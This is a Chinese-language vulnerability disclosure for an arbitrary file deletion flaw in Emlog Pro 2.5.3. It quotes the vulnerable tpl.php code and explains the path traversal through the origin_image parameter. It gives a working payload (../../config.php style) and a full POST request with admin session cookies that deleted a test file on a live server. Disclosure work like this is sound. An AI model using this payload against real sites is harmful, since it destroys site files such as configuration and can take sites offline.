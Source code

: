 ## Emlogpro 2.5.3任意文件删除漏洞
EMLOG 是一款轻量级开源博客和CMS建站系统，速度快、省资源、易上手，适合各种规模的站点搭建。

Emlogpro 最新版本 2.5.3中存在一个严重漏洞，漏洞文件：`content\plugins\tpl_options\actions\tpl.php`存在路径穿越以及参数可控导致任意文件删除

### 解决建议
建议您更新当前系统或软件至最新版，完成漏洞的修复。

### 漏洞分析
`content\plugins\tpl_options\actions\tpl.php`漏洞文件如下
```php
<?php
/*
 * Author: Vaimibao-曦颜XY
 * Description: 模板设置插件AJAX处理。
*/

require_once '../../../../init.php';

if (!User::isAdmin()) {
    echo '权限不足！';
    exit;
}

//处理AJAX action
$action = Input::postStrVar('action', '');
if (!isset($action)) {
    echo '操作失败，请刷新网页！';
    exit;
}

//处理AJAX请求
if ($action === 'tpl_upload') {
    $origin_image = Input::postStrVar('origin_image', '');
    $ret = uploadCropImg();
    $file_path = $ret['file_info']['file_path'];
    $abs_file_path = '';
    $abs_file_path = strstr($file_path, 'content/uploadfile/');
    if ($abs_file_path === false) {
        echo '{"code":"error","data":"文件上传出错"}';
        exit;
    }
    $abs_file_path = BLOG_URL . $abs_file_path;

    //删除旧图
    if (!empty(trim($origin_image)) && strpos($origin_image, 'uploadfile') !== false) {
        $path = '../../../../' . str_replace(BLOG_URL, '', $origin_image);
        if (file_exists($path)) {
            unlink($path);
        }
    }

    if (empty($ret['success'])) {
        echo '{"code":"error","data":"' . $ret['message'] . '"}';
        exit;
    }

    if ($file_path) {
        echo '{"code":"success","data":"' . $abs_file_path . '"}';
        exit;
    }
}
```
主要作用是上传新的图片并删除老的图片

代码中我们可控`origin_image`，也就是老图片的路径，最后unlink的path是拼接出来的，并且有if条件
```r
if (!empty(trim($origin_image)) && strpos($origin_image, 'uploadfile') !== false)
```
我们路径必须含有`uploadfile`，最后会被拼接
```r
$path = '../../../../' . str_replace(BLOG_URL, '', $origin_image);
```
那么我们就可以通过路径穿越来任删除意文件比如：config.php
```r
http://localhost/content/uploadfile/../../config.php
```

### 搭建到服务器上攻击

先进入容器在app目录创建一个file.txt(等会利用漏洞任意文件删除这个文件)
![png](https://free4.yunpng.top/2025/01/22/678fddaa3a63c.png)
管理员用户登录
点击外观->模板->在默认模板中点击头部设置->选择任意图片上传
![png](https://free4.yunpng.top/2025/01/22/678fddeadf459.png)
brup抓包后只用将origin_image更改为poc:
```r
http://124.220.37.173:8000/content/uploadfile/../../file.txt
```

完整http报文
```http
POST /content/plugins/tpl_options/actions/tpl.php HTTP/1.1
Host: 124.220.37.173:8000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:134.0) Gecko/20100101 Firefox/134.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------38850914281727208123467510771
Content-Length: 6265
Origin: http://124.220.37.173:8000
Connection: close
Referer: http://124.220.37.173:8000/admin/template.php
Cookie: PHPSESSID=936897df99aabaaecb83730927efa59f; EM_AUTHCOOKIE_PY2fzSUL3tB6Rk8Jsjmurk2ZSBCifkIb=admin%7C1768579696%7Ca56b08b3f3d8179dc513fa7c20a40e18; EM_AUTHCOOKIE_IeOWYaYo8d73Rtrkcn8N8zzmOVhFZnsX=admin%7C1768582678%7Cb494dbed29cbe93144bec965430ca811

-----------------------------38850914281727208123467510771
Content-Disposition: form-data; name="action"

tpl_upload
-----------------------------38850914281727208123467510771
Content-Disposition: form-data; name="image"; filename="logo.png"
Content-Type: image/png

PNG


-----------------------------38850914281727208123467510771
Content-Disposition: form-data; name="origin_image"

http://124.220.37.173:8000/content/uploadfile/../../file.txt
-----------------------------38850914281727208123467510771--

```

截图：
![png](https://free4.yunpng.top/2025/01/22/678fde0379ab6.png)

执行后发现成功删除该文件：
![png](https://free4.yunpng.top/2025/01/22/678fde21b8810.png)